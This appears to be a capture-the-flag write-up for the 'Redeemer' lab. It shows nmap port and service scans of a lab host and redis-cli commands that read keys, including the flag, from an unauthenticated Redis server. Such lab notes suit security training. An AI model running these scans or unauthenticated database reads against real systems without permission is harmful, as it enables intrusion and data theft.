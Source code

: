 # Redeemer

TARGET MACHINE IP ADDRESS
10.129.64.170

## Nmap

### This one took a LONG time... 
```
nmap -Pn -sS -p- 10.129.64.170
```

### This one was quicker...
- The questions revolved around "redis," so I just searched on what port redis used... 
```
nmap -sS -sV -sC -O -p 6379 10.129.64.170
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 20:25 EST
Nmap scan report for 10.129.64.170
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds

```

## redis-cli
```
redis-cli -h 10.129.64.170
# connect to the redis db

10.129.64.170:6379> help [tab]
# tab through help topics

10.129.64.170:6379> INFO
# Display information and statistics

10.129.64.170:6379> select 0
# select redis local db... new connections always use the database 0.

10.129.64.170:6379> KEYS *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
# keys are the fundamental data structure used to identify, store, and retrieve data.
# each key in Redis maps to a corresponding value

10.129.64.170:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
# GET retrieves the value associated with the specified key
```

"Key" Source: https://www.geeksforgeeks.org/a-complete-guide-to-redis-keys/
